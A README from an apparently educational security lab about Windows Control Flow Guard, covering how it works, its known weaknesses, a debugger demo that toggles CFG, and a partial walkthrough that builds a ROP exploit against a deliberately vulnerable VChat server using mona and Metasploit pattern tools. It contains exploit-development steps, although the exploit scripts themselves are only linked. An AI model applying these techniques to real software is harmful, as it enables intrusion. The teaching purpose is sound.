# Control Flow Guard
> [!NOTE]
> Originally based on notes from [llan-OuO](https://github.com/llan-OuO).
---
> "Ensure control flow integrity of indirect calls." - Microsoft

Control flow guard (CFG) is Windows' implementation of [Control Flow Integrity (CFI)](https://en.wikipedia.org/wiki/Control-flow_integrity). Which can be distinguished from a "perfect" CFI implementation that protects the integrity of all indirect and direct branches, **CFG focuses on indirect branches** which can be expressed as **Indirect function calls**. 

> [!NOTE]
> Indirect Function Calls are calls to functions made with function pointers; below is an example of an Indirect function call in a toy C program. We do not show the main function or the definition of `some_function` for brevity!
> ```c
>   // This is a typedef of a function pointer to
>   // make the allocation of an object easier!
>   typedef void (*functionpointer)();
>
>   // We assign a function address to a local variable
>   // or element of an array, in this case some_function
>   // must have the signature of void some_function(void)
>   // Otherwise the compiler will likely throw an error
>   functionpointer fp_var = some_function;
>
>   // We can call the function like so, performing an indirect function call.
>   fp_var();
>```


> “When Control Flow Integrity is implemented, it adds extra checks before a function pointer call is made and a return address is returned, making those the only valid places to return to,” DeMott said. “Microsoft didn’t feel it was necessary to fully implement Control Flow Integrity; Control Flow Guard protects function pointers only, not return addresses.” - [A report from Threatpost](https://threatpost.com/bypass-developed-for-microsoft-memory-protection-control-flow-guard/114768/)
## What is CFI
Control Flow Integrity (CFI) ensures that the flow of execution follows a predetermined path created at the compile time of the program. CFI, when implemented, fully protects both indirect and direct function calls [4]. Indirect function calls are those using function pointers stored in memory, usually as part of a structure or as a variable. Indirect function calls include calls to functions that are located in a known *static* region of memory (determined at link-time), and calls to functions which are dynamically linked. CFI when *fully-implemented* protects both the call to the target function, verifying the target's ID and the return from the target function to the callee, ensuring the ID of the function we are returning to is one of the expected values [4].

There are implementations of CFI in [Clang](https://www.redhat.com/en/blog/fighting-exploits-control-flow-integrity-cfi-clang), which uses the Control-Flow graph at compile time to construct the whitelist for both indirect and direct function calls in addition to their returns [5][6]. This implementation ensures not only that a valid function address is targeted but also that the intended target is the one to which this function should be making a call. This implementation in Clang has been used on various programs compiled for [Android](https://source.android.com/docs/security/test/cfi) devices [7].

> [!NOTE]
> Clang's Implementation does not protect the backward edge (return) of a function call for x86-64 architectures [3].

## What can CFG do?
CFG ensures that the destination addresses of any indirect function call, also known as an *indirect jump* is a member of a predefined white list made at the compile time of the program. This whitelist is a mapping (in the format of bitmap named **CFGBitmap**) of all valid control flow targets, which marks all valid function entries of the process. Although it should be noted that not all indirect function calls will have a CFG guard, those that are constant *read-only* values such as those in the Import Address Table (IAT) which are *read-only* do not require this additional check as they cannot be overwritten [3][10]. This can help to protect the target address of an indirect call from being corrupted with an invalid address. We should also be aware that CFG guards *only* the forward flow of control, ensuring it is whitelisted - that is, CFG does not protect the return addresses stored on the stack, which are used to control the *backwards-edge* of the flow. Starting with Windows 10 Version 1702, the Windows Kernel has been compiled with CFG, which at the kernel level is known as kCFG [10].

> [!NOTE]
> Microsoft's implementation does not validate the type of argument provided to the function, so it is possible for us to call a function that takes a float as an argument `int some_float(float x)` with an integer as an argument. Additionally, unlike Clang's implementation, it does not ensure the correct function is called, only that it is a member of the whitelist! You can see the behavior of Clang's implementation in [3].

## How does Windows implement CFG?
To make an application CFG-compatible, the application program must be compiled and linked with the [*/guard:cf*](https://docs.microsoft.com/en-us/cpp/build/reference/guard-enable-control-flow-guard?view=msvc-160&viewFallbackFrom=vs-2019) flag.

Window's implementation of CFG uses both compile-time operations and runtime operations managed by the Operating System [2][3]. The compiler is responsible for creating the whitelist and inserting additional checks to validate the address of the indirect call, while the Operating system is responsible for maintaining and verifying the mapping of whitelist entries to their location in the process's memory space.

<!-- CFG requires both compiler and runtime OS support. -->

- Compiler support:
    - **Code instrumentation**: Compiler inserts a check function *_guard_check_icall*, passing the target address of the indirect function call as an argument before the indirect call occurs. This function verifies if the target function is on the white list and will throw an exception if it is not.
    - **Generating the private CFGBitmap information**: The compiler can identify a set of valid non-dynamically linked functions (private, compared to functions in shared module like those in a .dll file) and stores the relative virtual addresses (RVA) of these functions in the **Guard CF function table**. These RVAs will be converted to bitmap by the OS at runtime. This bitmap contains 2 bits for every 16 bytes in the program's process space. One bit represents if there is a valid function in the 16-byte range, and the other tells us if the function entry point is perfectly aligned on the 16-byte address represented or if it is within the 16-byte region this represents. The values are `0, 0` meaning there is no valid function in this 16-byte region, `1, 0` meaning there is a valid function in this 16-byte region and it is aligned *exactly* on this address, and finally, we have `1, 1` meaning there is a valid function but is starts somewhere in the 16-byte region this represents. This final state is because the compiler, due to the inclusion of inline assembly or our use of hand-written assembly, may not always guarantee that functions are aligned on the proper boundaries.

> [!NOTE]
> Old implementations of the CFG bitmap used 1 bit for every 8-bytes, and this simply represented if there was a function in that 8-byte region. Meaning we would have it set to `1` if there was a valid function or `0` if there was not a valid function entrypoint.
- OS kernel support:
    - **Generating CFGBitmap**: This will be a *read-only* object that is created based on the entries in the *Guard CF function* table of the image that was generated at compile time and also includes the shared module information gathered by the **dynamic linker**<!-- May be inaccurate to say dynamic linker --> when the image is loaded.
    - **Handling the verification procedure**: If the target is invalid, an exception will be raised.

> [!NOTE]
> The CFG Bitmap contains a shared and a private region. The shared region stores information relating to the DLLs (shared modules) which are loaded by the process and is shared between multiple processes. While the private region stores references to local functions within the executable. [2][10].

![An example pseudocode of CFG implementation [1]](/Images/cfg-pseudocode.jpg)

> [!IMPORTANT]
> Programs that have CFG enabled will have a *large* virtual size, this is because the bitmaps 
## Weaknesses
According to [2]:
> 1. CFGBitmap is stored in a fixed address and can be easily retrieved from user mode code.
> 2. If the main executable does not have CFG enabled, the process is not protected by CFG even if it loaded a CFG-enabled module.
> 3. If a process’s main executable has disabled DEP (the process’s ExecuteEnable is enabled by compiled with /NXCOMPAT:NO), it will bypass the CFG violation handle, even if the indirect call target address is invalid.
> 4. Every bit in the CFGBitmap represents ~eight~ sixteen bytes in the process space. So if
an invalid target call address has less than ~eight~ sixteen bytes from the valid function
address, the CFG will think the target call address is “valid.”
> 5. If the target function generated is dynamic (similar to JIT technology), the
CFG implementation doesn’t protect it. This is because NtAllocVirtualMemory will set all “1”s in CFGBitmap regions for the allocated executable virtual memory space (described in 4.c.i). It’s possible that customizing the CFGBitmap via MiCfgMarkValidEntries can address this issue.

Additional Weaknesses from [10]:
> 1. Due to the implied trust granted to function pointers stored in *read-only* memory segments, if an attacker is able to modify those segments of memory and add a new entry to one like the Import Address Table, then they would be able to perform an indirect function call with it bypassing the CFG protections.
> 2. CFG does not verify a function is what it claims to be, just that the address we will execute at is part of a whitelisted function's address space. This means if we are able to locate a whitelisted function, we may overwrite it or the pointer to it (in the IAT, for example) with an address to code that will transfer execution to some malicious code that was injected into the system. Windows CFG does not verify that function signatures match, unlike the Clang CFI implementation, which does [5].
> 3. For kCFG to be enabled, Virtualization Based Security must also be enabled on the system, However, even if it is not enabled on the system, indirect function calls will still be routed through the kCFG procedures/functions; these will perform a check to ensure the address we are attempting to reach is sign-extended (high bits generally 63-48 are `1`) meaning it is a kernel-space function if they are not sign-extended this means we are attempting to jump to a user-space address and this will be denied.


> [!IMPORTANT]
> Starting in Windows 10, a page can be allocated with the protections `PAGE_TARGETS_NO_UPDATE` and or `PAGE_TARGETS_INVALID`. This can be used with Just In Time Compilers to first mark all allocations as invalid CFG targets `PAGE_TARGETS_INVALID` while also being able to modify the protections on the memory page without making the addresses valid CFG targets `PAGE_TARGETS_NO_UPDATE`. This way we can manually mark the compiled function entrypoints as valid with the [`SetProcessValidCallTargets(...)`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-setprocessvalidcalltargets) function rather than letting all addresses in the allocated region be marked as valid.

## CFG Standalone
This section will discuss the example program contained in this directory, this program is a *toy program* used to introduce the compiler options, and explore the behavior of a program that has the `/guard:cf` compiler flag enabled vs a program that does not have the `/guard:cf` flag enabled. The other options available for the Visual Studio compiler are configured to closely resemble the *VChat* project.


### Open and Configure
The following section will discuss the process of opening and configuring the standalone project to support the use of CFG in a Windows application compiled with the Visual Studio compiler.

1. The Visual Studio Project can be found in [SRC/CFG-Standalone](./SRC/CFG-Standalone/), you should open the [CFG-Standalone.sln](./SRC/CFG-Standalone/CFG-Standalone.sln) file with Visual Studio in order to open the entire project, including the source file and configuration options.

    

2. You can open the `main.c` file from the Solution Explorer, if you cannot see the solution explorer use `View -> Solution Explorer` to open the Solution Explorer.

    

3. Open the project properties `Project -> Properties`

    

4. Open the *Code Generation* configuration window `C/C++ -> Code Generation`, we can see that a number of security options have been disabled to allow this program to work each of which is discussed below.
   1. The *Control Flow Guard* option has initially been set to **No**. This means the `/guard:cf` option will not be used and we can explicitly disable this with `/guard:cf-`. This means the additional code to verify the flow of the program when indirect function calls are used will not be applied. This means the use of function pointers, and virtual function calls are unprotected if they can be overwritten.

        

   2. The [*Basic Runtime Checks*](https://learn.microsoft.com/en-us/cpp/build/reference/rtc-run-time-error-checks?view=msvc-170) has been set to check for the use of *Uninitialized variables* `/RTCu`, this is because we cannot explicitly disable the Runtime Checks in the Visual Studio Project. By default, a Visual Studio Project will also verify *Stack Frames* `/RTCs` when performing a buffer overflow as we do in the example project may raise an exception as it will detect the buffer overrun (overflow).

        

   3. We disable additional [*Security Checks*](https://learn.microsoft.com/en-us/cpp/build/reference/gs-control-stack-checking-calls?view=msvc-170) `/GS-`, this is because when enabled the buffer overflows may be detected.

        

   4. We also disable additional [*Security Development Lifecycle*](https://learn.microsoft.com/en-us/cpp/build/reference/sdl-enable-additional-security-checks?view=msvc-170) checks `/sdl-`, we do this as it is described as a **superset** of the *Security Checks* and overrides the `/GS-` configuration. 

        

    <!-- > [!NOTE] -->
    > We can see the *Debug Information Option* is set to *Program Database* `/Zi`, this is because the* Program Database for Edit And Continue* `/ZI` option is mutually exclusive with the CFG `/guard:cf` option used later.

   5. Although we are not exploiting SEH chains, we configure the project to use C style SEH chains in order to better reflect the environment of the VChat process.

        

    <!-- > [!NOTE] -->
    > The VC++ compiler may not allocate objects in the order they appear. Additionally, it may insert extra padding to preserve boundaries. We can see the padding behavior of structures based on a [/Zp Documentation](https://learn.microsoft.com/en-us/cpp/build/reference/zp-struct-member-alignment?view=msvc-170)
    > 
    > We can see that although our small buffer `buff` is 1 byte, due to padding, there are 2 bytes between it and the function pointer. If we were to change the Struct Alignment to 1 byte `/Zp1`, then they would be adjacent as shown below
    > 

5. Open the *Advanced* configuration window for the Linker `Linker -> Advanced`
    1. Ensure ASLR, the *Randomize Base Address* `/DYNAMICBASE` option is set, per the [Microsoft Documentation](https://learn.microsoft.com/en-us/cpp/build/reference/guard-enable-control-flow-guard?view=msvc-170) this linker option is required for CFG to work properly.

        

   1. Ensure NoneXecutable memory pages are enabled, this is enabled by setting the *Data Execution Prevention* `/NXCOMPAT` option. It is not explicitly mentioned in Microsoft's documentation, however based on the observed behavior in this project and the findings of security researchers previously in [2] this being enabled is required. 

        

6. This project has one project specific configuration due to it's use of [`SetProcessValidCallTargets(...)`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-setprocessvalidcalltargets) we need to include the `WindowsApp.lib` library during the linking phase. Navigate to `Linker -> Input` and replace *$(CoreLibraryDependencies)* with *WindowsApp.lib* as shown below.

    

> [!IMPORTANT]
> If a function has the `DECLSPEC_GUARD_SUPRESS` annotation, then a special flag will be used in the bitmap to indicate the programmer never expects this function to be a target of an indirect call or jump instruction.
>
> We would annotate a function in the following manner:
> ```
> __declspec(guard(suppress)) void funcName(int arg1) { ... }
> ```
> The `__declspec(guard(suppress))` part of the declaration makes it so the CFG table does not include this function as a valid destination and marks is differently such that it will fail.
### Building and Running
The following section will build the standalone project and observe its behavior when modifying the project properties discussed earlier and running various indirect function calls.

1. Build the project. You can use the keybind *Ctl+B*, `Build -> Build Solution` or `Build -> Build CFG-Standalone`.

    

2. We should observe the Build successfully completing from the results in the output window, this project is configured to build with *Debugging* information, if you select *Release* you may not have all the configurations required for the program to work!

    

3. We have a number of preprocessor directives we can use to modify the behavior of the program. There are four that you need to be aware of; we control the behavior of the program by commenting or uncommenting them.
   * `#define E1 1`: The code will overflow the function pointer with the the *good_func* address which was already present; this acts like a control test case as it should always succeed unless we remove *good_func* from the whitelist.
   * `#define E2 1`: The code will overflow the function pointer with the address of *bad_func*. This will succeed if there is an entry on the whitelist. 
   * `#define E3 1`: The code will overflow the function pointer with an address offset into *bad_func*. This should fail if CFG is enabled.
   * `#define EDIT_WHTLIST`: The code will remove both *good_func* and *bad_func* from the whitelist, and if CFG is enabled, all previous tests should fail. 
4. We will run the program attached to the Visual Studio debugger for each of the test cases, this is so we can see the flow of the program's execution, and where exceptions were thrown.
   1. Set a breakpoint at the indirect function call, this is done by *left-clicking* on the left-hand margin as shown below

        

   2. Start the Debugger for a Local Windows program

        

    <!-- > [!NOTE] -->
    > If you make changes to the source files, you can manually invoke the Visual Studio compiler to build the project, however when you click *Local Windows Debugger* it will automatically rebuild the project if changes are detected so that step can be omitted.

   3. There are a variety of controls and options available to us. For this demonstration we only need to use the *Step-Into* instruction shown below, and the *Stop Debugging* option which is the red square located nearby.

        

### Exercise 1 
1. Ensure CFG is disabled, navigate to the Properties windows and `C/C++ -> Code Generation`.

    

2. Run the Local Debugger and set a breakpoint as discussed in [Building and Running](#building-and-running). Notice that by observing the local variable window we can see the address we overflowed is indeed the same as the address we had previously stored in the function pointer.

    

3. Right-click the window where the indirect function call occurs and select "Show Disassembly". We should see that the indirect call occurs directly; we do not perform any of the checks associated with CFG.

    

    ```
	ex.x(); // Need NX Compat enabled
    00EB1847  call        dword ptr [ebp-4]  

    return 1;
    00EB184A  mov         eax,1  
    ```

> [!NOTE]
> You can see the C code (and comments) preceded by their associated assembly. It is clear CFG is not enabled as `ex.x();` compiled directly to a call instruction `call        dword ptr [ebp-4]`

5. Click Step and observe we successfully entered into *good_func* at the entrypoint. A full demonstration of this is shown below:

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/92da4063-82ac-456a-8239-1adbcb0db781

6. Now enable CFG, navigate to the Properties windows and `C/C++ -> Code Generation`.

    

7. Run the Local Debugger and set a breakpoint as discussed in [Building and Running](#building-and-running). Again we can see the address in the function pointer refers to the entrypoint of *good_func*.

    

8. Right-click the window where the indirect function call occurs and select "Show Disassembly". We should see that the indirect call occurs directly; we do not perform any of the checks associated with CFG.

    

    ```
	    ex.x(); // Need NX Compat enabled
    001E2277  mov         edx,dword ptr [ebp-8]  
    001E227A  mov         dword ptr [ebp-4],edx  
    001E227D  mov         ecx,dword ptr [ebp-4]  
    001E2280  call        dword ptr [__guard_check_icall_fptr (01F0000h)]  
    001E2286  call        dword ptr [ebp-4]  

        return 1;
    001E2289  mov         eax,1  
    ```

    <!-- > [!NOTE] -->
    > We can clearly see that CFG has been enabled since the indirect call has been expanded to support the check with the call to `__guard_check_icall_fptr` verifying the target address is a member of the Whitelist.

9. Click step and observe we successfully jump to the entrypoint of the *good_func* function, a full example is again shown below. Be sure to click step-into from the C file, otherwise, we will need to step through the call to `__guard_check_icall_fptr` 

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/59e25c90-76f3-4d09-9f64-8446370e4215

10. Now *Uncomment* the `EDIT_WHITELIST` preprocessor definition.

    

11. Rerun the previous test and observe the output, we should see it fail as shown below as we have removed *good_func* from the whitelist.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/3a0d9734-a789-4a4b-935a-a225d4200e11

### Exercise 2
1. Ensure CFG is disabled, navigate to the Properties windows and `C/C++ -> Code Generation`.

    

2. Ensure the `EDIT_WHITELIST` and `E1` preprocessor definitions are commented out. *Uncomment* the `E2` preprocessor definition.

    

3. Run the Local Debugger and set a breakpoint as discussed in [Building and Running](#building-and-running). We can see the address we are now referencing is to *bad_func*.

    

4. We can right click the line containing the *indirect function call* and select the *Go to Disassembly*.

    

    ```
    	ex.x(); // Need NX Compat enabled
    001E1847  call        dword ptr [ebp-4]  

        return 1;
    001E184A  mov         eax,1 
    ```

> [!NOTE]
> You can see the C code (and comments) preceded by their associated assembly. It is clear CFG is not enabled as `ex.x();` compiled directly to a call instruction `call        dword ptr [ebp-4]`

6. Now we can click Step-Into and observe the results. We can see a full run-through in the video below; as we are performing the indirect function call directly with a call instruction we can click Step-Into from the disassembly or C view.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/7282a4d2-8c5a-4594-a667-906b5d1a74ea

7. Now enable CFG, navigate to the Properties windows and `C/C++ -> Code Generation`.

    

8. We can right click the line containing the *indirect function call* and select the *Go to Disassembly*.

    

    ```
    	ex.x(); // Need NX Compat enabled
    00BF2277  mov         edx,dword ptr [ebp-8]  
    00BF227A  mov         dword ptr [ebp-4],edx  
    00BF227D  mov         ecx,dword ptr [ebp-4]  
    00BF2280  call        dword ptr [__guard_check_icall_fptr (0C00000h)]  
    00BF2286  call        dword ptr [ebp-4]  

        return 1;
    00BF2289  mov         eax,1  
    ```
    <!-- > [!NOTE] -->
    > We can clearly see that CFG has been enabled since the indirect call has been expanded to support the check with the call to `__guard_check_icall_fptr` verifying the target address is a member of the Whitelist.

9. Click step and observe we successfully jump to the entrypoint of *bad_func* even though it is not the original target of the indirect function call, this is because it is still in the whitelist of valid function entrypoints generated at compile time. We can see this in the video below. 

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/9c1a943e-7816-4b6a-a23a-6d9e6e6b9a8a

10. Now we should *uncomment* the `EDIT_WHITELIST` preprocessor definition as we have done previously and run the program once again as shown below. Notice that it now throws an exception since we have removed it from the whitelist.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/6122a5b5-3ab9-4c11-94d7-64be9a2bbcbb

### Exercise 3
1. Ensure CFG is disabled; navigate to the Properties windows and `C/C++ -> Code Generation`.

    

2. Ensure the `EDIT_WHITELIST` and `E1` preprocessor definitions are commented out. *Uncomment* the `E2` preprocessor definition.

    

3. Run the Local Debugger and set a breakpoint as discussed in [Building and Running](#building-and-running). Notice that by observing the local variable window we can see the address we overflowed is now offset into the *bad_func* function, in this case it is line 167, inside of the if statement that is never true!

    

4. Right click the line containing the *Indirect Function Call* and select *Go to Disassembly*.

    

    ```
        ex.x(); // Need NX Compat enabled
    00DA1853  call        dword ptr [ebp-4]  

        return 1;
    00DA1856  mov         eax,1  
    ```

> [!NOTE]
> You can see the C code (and comments) preceded by their associated assembly. It is clear CFG is not enabled as `ex.x();` compiled directly to a call instruction `call        dword ptr [ebp-4]`

6. Click *Step-Into*, we can do this from either the disassembly or C source code view. Observe that we jump into protected part of the *bad_func* function. The video below show the full process.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/cc6c24aa-4155-46c1-b7b9-57dd702add91

    <!-- > [!NOTE] -->
    > As the function epilog assumes the preamble was executed, it is likely the program crashes when it attempts to return from the function we jumped into the middle of.

7. Now enable CFG, navigate to the Properties windows and `C/C++ -> Code Generation`.

    

8. We can right click the line containing the *indirect function call* and select the *Go to Disassembly*.

    

    ```
        ex.x(); // Need NX Compat enabled
    00AB2283  mov         edx,dword ptr [ebp-8]  
    00AB2286  mov         dword ptr [ebp-4],edx  
    00AB2289  mov         ecx,dword ptr [ebp-4]  
    00AB228C  call        dword ptr [__guard_check_icall_fptr (0AC0000h)]  
    00AB2292  call        dword ptr [ebp-4]  

        return 1;
    00AB2295  mov         eax,1  
    ```
    <!-- > [!NOTE] -->
    > We can clearly see that CFG has been enabled since the indirect call has been expanded to support the check with the call to `__guard_check_icall_fptr` verifying the target address is a member of the Whitelist.

9. We can now click *Step-Into* from the C View, if you do this from the disassembly view you will have to step through the call to `__guard_check_icall_fptr`. Below are the results of attempting to perform the indirect function call.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/9f40da24-ac3d-4226-b34d-62ee548e48a1

    <!-- > [!NOTE] -->
    > We can see the call to an address offset within a function is invalid. This is because the Whitelist contains the starting address of the function. If we attempt to perform an indirect jump to an address not contained in the whitelist the exception is thrown as was done in this case. 
<!--
> [!IMPORTANT]
> Based on Current Testing the NXCompat flag `/NXCOMPAT` is required, the DynamicBase did not affect the /guard:cf flag. This does not align with the comments that the `/DYNAMICBASE` linker flag is required from the official [Microsoft Documentation](https://learn.microsoft.com/en-us/cpp/build/reference/guard-enable-control-flow-guard?view=msvc-170). We were able to successfully raise a Invalid Indirect Call Exception from the standalone code with `/DYNAMICBASE:NO` set to disable ASLR.
-->
## Checking CFG Enabled
This section will use a VChat process with CFG enabled, be sure to disable it for the following section. Within this section we will cover the use of [dumpbin](https://learn.microsoft.com/en-us/cpp/build/reference/dumpbin-command-line?view=msvc-170) a CLI tool that can be used to examine the binary file and specific feilds in the PE format. We will also use [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer) and [Mona.py](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/).

### Dumpbin
1. Enable CFG in VChat and recompile the binary.
2. Open the Developer Powershell for Visual Studio

    

3. Navigate to the repository that contains the VChat exe.

    

4. Run the following command to dump the Headers of the VChat PE file.

    ```
    $ dumpbin /headers .\VChat.exe
    ```
    * `dumpbin`: Windows dumpbin utility.
    * `/headers`: Dump headers for each section in the PE file.

    

5. See in the *Optional Header* under [*DLL Characteristics*](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#dll-characteristics) we have the **Control Flow Guard** characteristic flag set (`IMAGE_DLLCHARACTERISTICS_GUARD_CF`).

    

6. Run the following dumpbin command to dump the [structure](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-image_load_config_directory32) that contains information on how the PE file is configured and loaded.

    ```
    $ dumpbin /LOADCONFIG VChat.exe
    ```

    

7. Locate the entry `CF instrumented` in the Guard Flags entry. This further confirms that CFG is enabled and the code is instrumented to support it.

    

8. Scroll down till you see the *Guard CF Function Table*, this is the Whitelist that contains the valid function entrypoints.

    

### Process Explorer
1. Enable CFG in VChat and recompile the binary if this has not already been done.
2. Start VChat.
3. Open Process Explorer

    

4. Right-click an unoccupied space and select *Select Column*

    

5. Select *Control Flow Guard* and ony other options you would like and click *Ok*.

    

6. Observe VChat has CFG Enabled (And DEP)

    

> [!IMPORTANT]
> Programs that have CFG enabled will have a *large* virtual size; this is because the required space to store the bitmap of the entire address space available to the process is *reserved* in memory. They are not in-use or loaded but they still affect the process's virtual size due to the fact they could be loaded into memory. 
>
> In 32-bit programs we require 32 MB on x86 systems (48 MB if `/LARGEADDRESAWARE`). A 32-bit program on a x86 system will require 2 TB (For Windows DLLs) + 64 MB (For Executable). A 64-bit process requires 2 TB.

### Mona.py
1. Enable CFG in VChat and recompile the binary if this has not already been done.
2. Open Immunity Debugger

    

3. Launch and attach VChat to Immunity Debugger

    

4. In the command line at the bottom of the GUI run `!mona mod` as shown below.

    

5. Taking a closer look you can see the VChat EXE has CFG enabled, but the Essfun DLL does not! You would have to recompile the DLL and replace the one in the directory the VChat EXE is located in to make this change.

    

## VChat Exploitation
> [!NOTE]
> The *updated* VChat server will be required, so ensure you are using version `2.12` or greater.

This section will use a modified version of the [VChat TRUN ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) walkthrough, as we will use CFG to guard against ROP attacks, as ASLR is enabled through the randomizing of the base address which is required for the CFG implemented by Windows to work and throw exceptions when accessing arbitrary memory locations. We will instead be exploiting the `FUNCC` command that has been added to the VChat server.
### Initial VChat Configuration
1. Open the VChat Visual Studio Project.
 
    

2. Open the VChat project in Visual Studio and select `Project -> Properties`.

    

3. Open the `C/C++ -> Code Generation` configuration window and disable *Control Flow Guard*:

    

4. Open the `Linker -> Advanced` configuration window and enable *Data Execution Protection* DEP and *Randomized Base Address* (ASLR). Once done apply the changes and close the configuration window. 

    

    <!-- > [!NOTE] -->
    > As DEP and ASLR are not the focus of this lab, you can keep this disabled or enable it. This does not affect the exploitation process until we enable CFG later. 

5. Build the project with the shortcut `CTL+B` or by opening the `Build` window as shown below.

    

6. Open Immunity Debugger and attach it to the recompiled VChat executable.

    

### Exploit Setup and Non-CFG Observation
This section will cover the steps used to setup the exploit, for more details on ROP Attacks see [VChat_ROP_Intro](https://github.com/DaintyJet/VChat_ROP_INTRO), and for a more detailed explanation of the exploitation process please see [VChat_TRUN_ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) for a similar exploit. The main difference between this exploit and the *VChat_TRUN_ROP* is this exploit overflows a function pointer that is called, whereas the *VChat_TRUN_ROP* exploit overflows a return address.

> [!NOTE]
> At first CFG is disabled, but we have enabled both DEP and NX to smooth over the later modifications needed when CFG is enabled. 

1. Generate a Cyclic Pattern; this is done so we will be able to tell where in memory the *Function Pointer* is stored so we can overwrite it with an address to start the ROP chain. We will use the [`pattern_create.rb`](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) in the Kali VM in order to find the *exact* location the function pointer is in by examining the value stored in the registers. We will use the following command on the Kali Machine:

    ```
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
    ```

2. Modify your exploit code to reflect [exploit1.py](./SRC/Exploits/exploit1.py) using the output from the *pattern_create.rb* command used previously. This script will inject the Cyclic Patterns into the VChat's stack. Run the exploit and observe the results in Immunity Debugger.  
   1. Attach Immunity Debugger to the VChat Process. 

        

   2. Click the red arrow to start executing

        
    
    3. Run the [exploit1.py](./SRC/Exploits/exploit1.py) script on the Kali machine targeting the machine where the VChat server is hosted. You may need to run the command `chmod +x exploit1.py` to make use of the shebang line.

        
        
    4. Observe the results of running [exploit1.py](./SRC/Exploits/exploit1.py), notice that an exception has been raised, this is likely due to the fact we have DEP (NX) enabled or we are jumping to an arbitrary memeory address (Read or Write Exceptions). 

        

    5. Pass the exception to the process if you do not see an updated EIP register, use the keybind *Shift+F7* or any other listed at the bottom of the screen to pass the exception. Observe the value in the EIP register as this will be the address we overflowed into the function pointer.

        

3. Using the value in the EIP register, in this case `61423361` can be used with the [`pattern_offset.rb`](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) to determine the relative location of the *function pointer* we are overflowing.

    ```
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 61423361
    ```
   * We can see an example below

        

4. (Optional) Use the [mona.py](https://github.com/corelan/mona) python program within Immunity Debugger to determine useful information about our target process. While the cyclic pattern from [exploit1.py] is in memory, we can run the command `!mona findmsp` in the command line at the bottom of the Immunity Debugger GUI. **Note:** We must have sent the cyclic pattern and it must be present in the stack frame at the time we run this command!

    

    * Again we can see that the string stored in the EIP register is located at an offset of `390`, this is the same value we got from the *pattern_offset*.
5. Now we can modify our exploit program to reflect [exploit2.py](./SRC/Exploits/exploit2.py), we use this to verify the offset we previously discovered. If you have found the correct offset we will se a series of `42` in the EIP register as this is the ASCII code for `B`.

    

<!-- 6. We now need to find the address of Virtual Protect, this can be done with Immunity Debugger or [Arwin](https://github.com/xinwenfu/arwin). Below is how it can be done with *Arwin*.
   1. Download [Arwin](https://github.com/xinwenfu/arwin) if it has not already been downloaded.
   2. Use the following command to locate where [`VirtualProtect`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) is loaded on the system. This will change each time the system reboots!
        ```
        .\arwin.exe kernel32 VirtualProtect
        ```

         -->

7. Locate a RETN instruction address, and pick one that does not have the (READONLY) flag set.
    ```
    !mona find -type instr -s "retn" -p 45 -o
    ```
	* `!mona`: Run mona.py commands.
	* `find`: Locate something withing the binary which has been loaded into Immunity debugger.
	* `-type`: Specify the type of the object string we are searching for.
		* `asc`: Search for an asci string.
		* `bin`: Search for a binary string.
		* `ptr`: Search for a pointer (memory address).
		* `instr`: Search for an instruction.
		* `file`: Search for a file.
	* `-s "<String>"`: Specify the string we are searching for.
	* `-p <number>`: Limit amount of output to the number we specify (May need to increase this to find instructions at an executable location).
	* `-o`: Omit OS modules.

    

8. Now modify your exploit program to reflect [exploit3.py](./SRC/Exploits/exploit3.py), we use this to verify that we are jumping to a `ret` instruction.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/683a4be6-534a-41c5-9ed6-203c31e93d32

   1. Use the black *Go To Address in Disassembler* and enter in the address of the `ret` instruction you chose previously

        

   2. Add a breakpoint. 

        

   3. Run the [exploit3.py](./SRC/Exploits/exploit3.py), and observe the breakpoint being hit.

        

9. We can use the following command provided by [mona.py](https://github.com/corelan/mona) to generate the chain for us. The resulting chains will be located in `rop_chains.txt`, if there are missing gadgets they could be located in `rop.txt` or `rop_suggestions.txt`. These will be located in the working directory for the mona.py program and Immunity Debugger, in my case this was in the directory `C:\Users<User>\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`. You can also use the command `!mona config -set workingfolder c:\logs\E10` to set the folder our output will be stored in.

   ```
   !mona rop -m *.dll -n
   ```
   * `-m *.dll`: Search through all DLL files when building ROP chains.
   * `-n`: Ignore all modules that start with a Null Byte.

    

10. Modify your exploit to reflect [exploit4.py](./SRC/Exploits/exploit4.py), we are using the function from the `rop_chains.txt`. We will need to be sure the return is `return b''.join(struct.pack('<I', _) for _ in rop_gadgets)` as without converting it to a byte string, we will receive errors! 

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/d78f3f8b-833b-4398-9ab0-f45d4bc4588e

    1. Use the black *Go To Address in Disassembler* and enter in the address of the `ret` instruction you chose previously

        

    2. Add a breakpoint.

        

    3. Observe the behavior of the program, look at the stack and the ESP register, notice our ROP chain is not in view!

        

11. Search for 3 or more `POP` instructions in a row followed by a return. This is because we need to remove the return address the call instruction pushes onto the stack, and the first 4 - 8 characters of the ASCII string we use to overflow the buffer. This is so we can more easily access the ROP chain we inject. 

    1. Right-click the Assembly View, Select `Search For ->

        

    2. Search for a series of POP instructions followed by a return, an example is shown below.
        ```
        POP R32
        POP R32
        POP R32
        RETN
        ```
        * `POP R32`: Searches for a POP instruction that stores the result in a 32-bit register
        * `RETN`: Return instruction
